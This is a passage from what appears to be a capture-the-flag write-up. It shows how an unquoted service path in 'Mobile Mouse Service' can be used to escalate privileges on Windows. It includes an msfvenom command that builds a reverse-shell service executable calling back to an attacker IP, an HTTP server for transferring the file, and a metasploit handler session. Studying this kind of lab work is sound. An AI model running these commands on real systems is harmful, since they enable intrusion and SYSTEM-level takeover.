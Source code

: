 With this, we discover the `Mobile Mouse Service` with an unquoted service path, running as the `SYSTEM` user.

```
C:\Windows\system32>sc qc "Mobile Mouse Service"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: Mobile Mouse Service
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\Mobile Mouse\Mouse Utilities\HelperService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Mobile Mouse Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
{: .wrap }

We can abuse this to escalate our privileges due to how Windows behaves when the service path includes spaces and is not quoted. For example, in our case, the service path is set to `C:\Program Files (x86)\Mobile Mouse\Mouse Utilities\HelperService.exe` without quotes. When the service is run, Windows will try to find the executable for it in the following order:

1. `C:\Program.exe`
2. `C:\Program Files (x86)\Mobile.exe`
3. `C:\Program Files (x86)\Mobile Mouse\Mouse.exe`
4. `C:\Program Files (x86)\Mobile Mouse\Mouse Utilities\HelperService.exe`

Windows will go down the list, and if any of the executables exist, it will use that one.

The room asks us to use the `Mobile Mouse` directory, so we will create the `C:\Program Files (x86)\Mobile Mouse\Mouse.exe` executable on the target.

First, let's use `msfvenom` to create a service executable and start an `HTTP` server to transfer it to the machine.

```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.72.22 LPORT=443 -f exe-service -o shell-svc.exe

$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
{: .wrap }

Also, let's background our session in `metasploit` and run the `multi/handler` once more to catch our next shell.

```console
C:\Windows\system32>^Z  # Control + Z
Background session 1? [y/N]  y
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.11.72.22:443
msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...


Shell Banner:
Microsoft Windows [Version 10.0.17763.1821]
-----


C:\Windows\system32>
```